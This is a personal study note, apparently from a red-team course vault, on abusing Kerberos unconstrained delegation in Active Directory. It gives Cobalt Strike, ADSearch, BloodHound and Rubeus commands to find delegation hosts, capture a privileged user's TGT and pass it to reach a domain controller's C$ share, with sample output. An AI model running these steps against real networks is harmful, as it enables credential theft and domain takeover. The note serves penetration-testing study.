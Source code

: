 ```yaml
---
creation date: September 24th 2022
last modified date: September 24th 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Unconstrained Delegation]]  
___

## Description:  

Delegation allows a user or a service to act on behalf of another user to another service.

If we can compromise a machine with unconstrained delegation, we can extract any TGTs from its memory and use them to impersonate the users against other services in the domain.

In CobaltStrike:

```
beacon> execute-assembly C:\Tools\ADSearch\ADSearch\bin\Debug\ADSearch.exe --search "(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" --attributes samaccountname,dnshostname,operatingsystem
```

In Bloodhound:

```
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
```

Look for machines we have compromised.

If we compromise SRV-1 and wait or engineer a privileged user to interact with it, we can steal their cached TGT. Interaction can be any Kerberos service, so something as simple as `dir \\srv-1\c$` is enough.

Rubeus has a `monitor` command (requires elevation) that will continuously look for and extract new TGTs. On SRV-1 (use `/ticket:rto.kirbi` to export ticket locally):

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Debug\Rubeus.exe monitor /targetuser:nlamb /interval:10

[*] Action: TGT Monitoring
[*] Target user     : nlamb
[*] Monitoring every 10 seconds for new TGTs

```

You can wait for authentication or force is with [[PetitPotam]] or [[Printer Bug]]

Write the base64 decoded string to a `.kirbi` file on your attacking machine. Create a sacrificial logon session, pass the TGT into it and access the domain controller.

```
beacon> make_token DEV\nlamb FakePass
[+] Impersonated DEV\bfarmer

beacon> kerberos_ticket_use C:\Users\Administrator\Desktop\nlamb.kirbi
beacon> ls \\dc-2\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     02/10/2021 04:11:30   $Recycle.Bin
          dir     02/10/2021 03:23:44   Boot
          dir     10/18/2016 01:59:39   Documents and Settings
          dir     02/23/2018 11:06:05   PerfLogs
          dir     12/13/2017 21:00:56   Program Files
          dir     02/10/2021 02:01:55   Program Files (x86)
          dir     02/23/2021 16:49:25   ProgramData
          dir     10/18/2016 02:01:27   Recovery
          dir     02/21/2021 11:20:15   Shares
          dir     02/19/2021 11:39:02   System Volume Information
          dir     02/17/2021 18:50:37   Users
          dir     02/19/2021 13:26:27   Windows
 379kb    fil     01/28/2021 07:09:16   bootmgr
 1b       fil     07/16/2016 13:18:08   BOOTNXT
 512mb    fil     03/09/2021 10:26:16   pagefile.sys
```





To stop Rubeus, use Cobalt Strike `jobs` and `jobkill` commands.

___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 24th 2022 (12:42 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>

